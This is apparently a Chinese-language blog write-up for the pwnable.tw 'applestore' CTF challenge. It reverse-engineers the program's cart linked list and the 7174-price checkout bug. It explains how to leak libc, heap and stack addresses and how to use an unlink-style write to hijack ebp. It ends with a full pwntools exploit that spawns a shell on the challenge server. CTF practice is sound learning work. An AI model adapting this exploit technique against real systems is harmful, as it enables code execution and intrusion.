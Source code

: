```yaml
---
title: pwnable.tw->applestore
categories:
- pwnable.tw
---
```

# pwnable.tw->applestore

## 前言

学了一点fastbin attack之后开始重新刷题，但是pwnbale.tw对于我这菜鸡来说还是有点难，磕磕绊绊看着p4nda学长调了下来，感觉自己做题一点思路都没有，还是要踏实地学习

## 程序逻辑

F5之后发现程序还是有几个关键的功能，列出苹果产品，购买一个产品，删除一个产品，查看自己加入购物车的产品，结账

![main](./1.jpg)

![main_func](./2.jpg)

有输入的地方都需要特别注意，选择功能这里的输入函数似乎没什么问题，因为其地址为ebp-0x22，read长度为0x15，没有越界写  
下面挨个看下功能函数，list没东西，add里有个create子函数，里面是malloc一个地址，赋给这个结构体的name和price。这里说下找到的结构体，每次操作的基本单元就是这样一个结构体，成员包括商品名，价格，下个结构体地址，上个结构体地址。Add里create之后还会使用Insert函数在原链表后面插入新的节点，链表头在bss段的&myCart处。  
![struct](./3.jpg)

![add](./4.jpg)

![create](./5.jpg)

![insert](./6.jpg)

delete函数相比之下简单一些，输入item number，遍历寻找链表节点，将被删除节点的前一个节点的Next指向item->next，被删除节点的下一个节点的前一个节点指向item->last。  

![delete](./7.jpg)

cart函数从myCart开始依次输出商品的名字和价格

![cart](./8.jpg)

checkout函数比较有意思，cart会得到一个商品总价格，这个价格是7174的时候会将ebp-0x20处作为最后一个chunk插入链表。这个地址看起来也没什么问题，因为虽然是栈上地址，但是这里的函数没有read，无法溢出覆盖。但是这个if条件这么苛刻，漏洞一定就在这里，再看一下别的含有read的函数，这里可以想到虽然原函数里没有直接输入可以溢出，但是由于这些函数都是main_func调用的，每次给的函数栈都是一样的，所以checkout之后再调用cart，他们的函数栈都是分配的一样的，这就给了我们利用的机会。

![checkout](./9.jpg)

## 漏洞分析

继续刚才的说，cart，delete，add函数里都有read的部分，这些函数可以溢出到最后一个chunk，cart里会有输出chunk->name,chunk->price的函数，以此可以泄露地址，而delete类似unlink，可以考虑构造unlink攻击。  
首先是这个If条件，list里的价格是199、299、399、499。最终价格是7174，以4结尾，6*9=54,所以肯定是*6的数量，而最大是499，最小是199，所以最终应当是36-14之间，写个Python脚本，四个循环遍历一下就出来了，有很多结果，选一个简单的就是6个199，20个299的。  

### 泄露libc函数地址

思路：首先create6个199，20个299，进入checkout分配栈上地址，在cart函数里修改栈数据（由于read函数不受'\x00'影响，输入'y\x00abcd'不影响buf比较但是可以覆盖栈数据），name填read@got，打印出read的实际地址

### 泄露堆地址

思路：由于全局变量myCart存储的第一个struct的地址，因此name填&myCart+8即可输入malloc的第一个chunk地址，再减去相应的偏移即可找到堆分配的基地址

### 泄露栈地址

思路：能得到堆地址的基础上，我们可以每次填入chunk->next的地址，使得每次输入都是下一个chunk的地址，依此到第26次输出的chunk->next_addr就是stack_addr

### unlink

思路：这个结构体的删除类似unlink加上我们可以控制最后一个结构体的数据，可以使用unlink，但是unlink有副作用，FD->bk = BK = addr2,*(addr1+12)=addr2，BK->fd = FD，*(addr2+8) = addr1，如果直接覆盖return_addr为shell_addr，则要么addr1 = return_addr-12，要么addr2 = return_addr-8,第一种情况下会导致*(shell_addr+8)=return_addr-12，第二种情况*(shell_addr+12)=return_addr-8，都会有副作用，这里就要使用一个常见的套路，就是要覆盖调用函数的ebp，即FD=stack_addr，BK=ebp_addr-8，使得*ebp=stack_addr,这样的副作用是*(stack_addr+12)=ebp_addr-8，stack_addr是我们伪造的一个栈结构，其值为fake_ebp+system_addr+fake_ebp+'/bin/sh'_addr，这个副作用完全不影响我们的利用。  
在被调函数执行完毕后，调用函数的ebp被换成了stack_addr，这样在leave ret的时候pop出fake_ebp，eip就指向system_addr了。这里的fake_stack我们可以选择handler里的可控区域.

## exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='i386',os='linux',log_level="debug")
context.terminal = ['tmux','split','-h']
debug = 1
elf = ELF('./applestore')
if debug:
    p = process('./applestore')
    libc = ELF('/lib/i386-linux-gnu/libc.so.6')
    gdb.attach(p)
else:
    libc = ELF('./libc_32.so.6')
    p = remote('chall.pwnable.tw',10104)

def Add(number):
    p.recvuntil('> ')
    p.sendline('2')
    p.recvuntil('Device Number> ')
    p.sendline(str(number))

def Remove(number):
    p.recvuntil('> ')
    p.sendline('3')
    p.recvuntil('Item Number> ')
    p.send(number)

def LisApp(data):
    p.recvuntil('> ')
    p.sendline('4')
    p.recvuntil('> ')
    p.send(data)

def Checkout():
    p.recvuntil('> ')
    p.sendline('5')
    p.recvuntil('> ')
    p.sendline('y')

for i in range(6):
    Add(1)
for i in range(20):
    Add(2)
Checkout()
read_got = elf.got['read']
payload = 'y\x00'+p32(read_got)+p32(0)*3
LisApp(payload)
p.recvuntil('27: ')
read_addr = u32(p.recv(4))
libc_base = read_addr - libc.symbols['read']
log.success('libc base addr => ' + hex(libc_base))
## leak heap addr
payload = 'y\x00'+p32(0x0804b068+8)+p32(0)*2
LisApp(payload)
p.recvuntil('27: ')
heap_base = u32(p.recv(4)) - 0x410
log.success('heap base => ' + hex(heap_base))
heap_addr =  heap_base+0x410
## leak stack
for i in range(26):
    payload = 'y\x00'+p32(heap_addr+8)+p32(0)*2
    LisApp(payload)
    p.recvuntil('27: ')
    heap_addr = u32(p.recv(4))
    
log.success('stack addr => ' + hex(heap_addr))
## unlink
return_addr = heap_addr + 0x20 + 4
system_addr = libc_base + 0x3a819
stack_addr = heap_addr + 0x60 -0x20
addr1 = stack_addr
addr2 = stack_addr + 0x20 - 8
payload = flat('27',0,0,addr1,addr2)
p.recvuntil('> ')
p.sendline('3')
p.recvuntil('Number> ')
p.send(payload)
##
payload = '6\x00'
esp = 0xdeadbeef
payload += flat(esp,system_addr,esp,esp)
p.recvuntil('> ')
p.send(payload)

p.interactive()
```

